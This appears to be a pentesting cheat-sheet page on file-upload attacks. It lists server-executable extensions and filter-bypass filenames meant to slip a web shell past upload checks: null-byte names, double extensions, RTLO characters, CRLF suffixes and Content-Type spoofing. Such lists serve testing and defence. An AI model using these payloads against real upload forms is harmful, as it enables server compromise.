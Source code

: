 # File Upload
### Defaults extensions
* PHP Server
```html
.php
.php3
.php4
.php5
.php7

# Less known PHP extensions
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc

```

* ASP Server
```html
.asp
.aspx
.config
.cer and .asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap

```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`
* Erlang Yaws Web Server: `.yaws`

## Upload tricks
* Use double extensions : `.jpg.php, .png.php5`
* Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
* Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
* Null byte (works well against `pathinfo())`
  * `.php%00.gif`
  * `.php\x00.gif`
  * `.php%00.png`
  * `.php\x00.png`
  * `.php%00.jpg`
  * `.php\x00.jpg`
* Special characters
  * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
  * Whitespace and new line characters
      * `file.php%20`
      * `file.php%0d%0a.jpg`
      * `file.php%0a`
  * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
  * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
  * Multiple special characters: `file.jsp/././././.`
* Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`